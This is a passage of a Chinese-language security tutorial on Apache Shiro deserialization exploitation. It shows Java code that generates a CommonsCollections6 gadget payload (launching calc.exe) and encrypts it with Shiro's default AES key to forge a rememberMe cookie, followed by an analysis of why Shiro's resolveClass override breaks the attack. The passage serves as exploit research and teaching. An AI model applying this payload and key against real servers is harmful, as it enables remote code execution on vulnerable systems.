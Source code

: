 ```java
        byte[] payloads = CC6_PayLoad("calc.exe");
        AesCipherService aes = new AesCipherService();
        byte[] key =
                java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());

    }
}
```

但是却报错了

![image-20230128131027720](../.gitbook/assets/image-20230128131027720.png)

------

找到异常信息的最后一个，`org.apache.shiro.io.ClassResolvingObjectInputStream`

```java
public class ClassResolvingObjectInputStream extends ObjectInputStream {
    protected Class<?> resolveClass(ObjectStreamClass osc) throws IOException, ClassNotFoundException {
        try {
            return ClassUtils.forName(osc.getName());
        } catch (UnknownClassException var3) {
            throw new ClassNotFoundException("Unable to load ObjectStreamClass [" + osc + "]: ", var3);
        }
    }
}
```

这个类是`ObjectInputStream`的子类，重写了`resolveClass`方法
`resolveClass`是反序列化中用来查找类的方法
对比父类`ObjectInputStream`的`resolveClass`

```java
protected Class<?> resolveClass(ObjectStreamClass desc)
    throws IOException, ClassNotFoundException
{
    String name = desc.getName();
    try {
        return Class.forName(name, false, latestUserDefinedLoader());
    } catch (ClassNotFoundException ex) {
        Class<?> cl = primClasses.get(name);
        if (cl != null) {
            return cl;
        } else {
            throw ex;
        }
    }
}
```
